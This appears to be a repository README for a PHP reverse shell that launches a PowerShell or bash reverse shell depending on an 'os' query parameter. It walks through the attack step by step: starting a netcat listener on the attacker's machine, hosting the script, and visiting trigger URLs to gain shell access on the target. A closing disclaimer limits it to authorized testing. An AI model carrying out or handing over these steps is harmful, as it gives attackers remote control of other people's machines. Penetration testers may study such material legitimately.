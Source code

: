 # PHP Reverse Shell (Windows/Linux)

This is a simple **PHP reverse shell** that works on both **Windows** and **Linux** systems. It allows you to specify the target operating system via a query parameter, and will execute a PowerShell reverse shell on Windows or a bash reverse shell on Linux.

## How It Works

- **Windows**: Access the script with `?os=windows`, and it will run a **PowerShell** reverse shell on the target machine.
- **Linux**: Access it with `?os=linux`, and it will run a **bash** reverse shell.

## Usage Instructions

### 1. Set Up a Netcat Listener

Before triggering the shell, start a **Netcat listener** on your machine (attacker's machine):

```bash
nc -lvnp 4444
```

### 2. Host the PHP Script

Use PHP’s built-in server to host the reverse shell script:

```bash
php -S 0.0.0.0:8000
```

### 3. Trigger the Reverse Shell

Open a web browser or any HTTP client and visit the PHP script with the appropriate query parameter for the target OS:

- For **Windows**:
  ```plaintext
  http://your-ip:8000/reverse_shell.php?os=windows
  ```

- For **Linux**:
  ```plaintext
  http://your-ip:8000/reverse_shell.php?os=linux
  ```

### 4. Receive the Reverse Shell

Once the reverse shell is triggered, you'll get access to the target machine through your **Netcat listener**.

### Example

```bash
php -S 0.0.0.0:8000
```

Access via browser:
```plaintext
http://your-ip:8000/reverse_shell.php?os=windows
```

## Disclaimer

**Educational Purposes Only**: This script is intended for legal penetration testing or educational use. Unauthorized use of this script is illegal. Please use responsibly in environments where you have explicit permission.
